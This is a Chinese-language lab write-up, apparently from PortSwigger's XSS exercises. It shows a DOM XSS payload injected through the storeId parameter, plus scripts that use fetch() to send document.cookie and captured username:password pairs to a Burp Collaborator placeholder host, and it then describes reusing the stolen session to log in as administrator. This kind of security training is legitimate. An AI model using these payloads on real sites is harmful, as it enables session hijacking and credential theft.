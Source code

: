 这里也有一个技巧：对于在URL内直接出现某变量等于某个值的结构，一般可能存在XSS注入。

![](https://cdn.jsdelivr.net/gh/IssacL04/IHS@img/img/202308021051882.png)

注意到右下角的store变量使用的是location.search先获取URL中的查询部分，即：“？”之后的字符串，然后传入storeId变量，然后用documen.write写入包含storeId的标签。

而点击页面下方的check stock抓包，提交的字符串为：

```
productId=1&storeId=London
```

由于storeId被直接传入URL，则可以通过该漏洞编辑payload：

```
product?productId=1&storeId="></select><img%20src=1%20onerror=alert(1)>
```

##### 4.1.8 Exploiting cross-site scripting to steal cookies/passwords

这里介绍了一个相当强大的功能：Burpsuite Collaborator。它的作用简略来说就是通过建立一个中继服务器用来在靶机和BURPSUITE之间存储和重放目标。很容易就可以发现这种中继方式在面对类似无回显的SQL盲注和XSS提权等漏洞时相当高效。

参考文档：

https://cloud.tencent.com/developer/article/1928550

https://blog.csdn.net/wang_624/article/details/123172519

https://blog.csdn.net/m0_37268841/article/details/102465521

以该题为例简单记录Collaborator在XSS攻击中的使用流程。

在Comment文本框内输入以下命令：

```javascript
<script>
fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>
```

CORS机制详解：https://developer.mozilla.org/zh-CN/docs/Web/HTTP/CORS

提交之后在Collaborator界面点击poll now，则会发现开始成功有数据包回传。点开任意一个HTTP数据包，可以看到session cookie值已经回显：

![](https://cdn.jsdelivr.net/gh/IssacL04/IHS@img/img/202308021051883.png)

前面的学习已经提及了session的作用：存储在服务器端的一个字符串，与cookie对应，分别在服务器端和浏览器端验证浏览器端的身份。现在由于已经掌握了session，则在任意一个链接抓包，将session值替换为抓包得到的session值，则可成功以管理员身份进入网页。

获取管理员密码也是可行的，需要修改一下提交的js脚本。

```javascript
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://BURP-COLLABORATOR-SUBDOMAIN',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```
